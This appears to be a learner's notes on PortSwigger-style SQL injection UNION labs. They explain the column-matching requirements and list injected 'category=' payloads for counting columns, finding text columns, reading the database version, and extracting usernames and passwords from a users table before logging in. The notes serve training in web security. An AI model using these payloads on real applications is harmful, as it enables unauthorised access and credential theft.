 # SQL injection UNION attacks

For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

```
SELECT product_name, price FROM products 
UNION SELECT username, age
```

The query above met the requirements:

| string | integer |
| -------| ------- |
| product_name | price | 
| username | age |


This one didn't meet the requirements:

```
SELECT product_name, price FROM products 
UNION SELECT id, username, password
```
## Determining the number of columns required in an SQL injection UNION attack
Method 1:
```
' ORDER BY 1, --
' ORDER BY 1,2 --
... 
' ORDER BY 1,2,3,N -- 
```

Method 2:  

```
' UNION SELECT NULL
' UNION SELECT NULL, NULL
...
' UNION SELECT NULL, NULL, NULL, NULL, NULL
```

Indicator to detect: error message.

# Labs
## Lab #1: SQL injection UNION attack, determining the number of columns returned by the query


Steps: 

1. Determine the number of columns by index.
```
category=Lifestyle' ORDER BY 1,2 --
category=Lifestyle' ORDER BY 1,2, --
category=Lifestyle' ORDER BY 1,2,3 --
category=Lifestyle' ORDER BY 1,2,3,4 -- # error
```
2. Fill with null.
```
category=Lifestyle' UNION SELECT NULL,NULL,NULL --
```

## Lab #2: SQL injection UNION attack, finding a column containing text

Steps:

1. Determine the number of columns 
```
category=Pets' ORDER BY 1,2,3 --
```

2. Determine column data type 
```
category=Pets' UNION SELECT 'inject',null,null --
category=Pets' UNION SELECT null,'inject',null --
category=Pets' UNION SELECT null,'inject','inject' --
```

# Lab #3: SQL injection UNION attack, retrieving data from other tables 

Suppose that:
- The original query returns two columns, both of which can hold string data.
- The injection point is a quoted string within the WHERE clause.
- The database contains a table called `users` with the columns `username` and `password`.

Steps:
1. Determine the number of column 
```
category=Lifestyles' ORDER BY 1,2 --
```

2. Determine the data type in each column 
```
category=Lifestyles' UNION SELECT 'a', NULL --
category=Lifestyles' UNION SELECT 'a', 'NULL' --
```

3. Retrieve data from the table users.
```
category=Lifestyles' UNION select username, password FROM users --
```
4. Login

## Lab #4: SQL injection UNION attack, retrieving multiple values in a single column

> Note: Different databases use different syntax
> Cheatsheet to examine the database version and which syntax to use
> https://portswigger.net/web-security/sql-injection/cheat-sheet


Lab steps:
1. Determine the number of column 
```
category=Gifts' ORDER BY 1, 2 --
```

2. Determine the data type in each column 
```
category=Gifts' UNION SELECT NULL, 'a' --
```

3. Examining the database version.
```
category=Gifts' UNION SELECT NULL, version() --
```

4. Retrieve multiple values from single column
```
category=Gifts' UNION SELECT NULL, username || ':' || password FROM users --
```

5. Login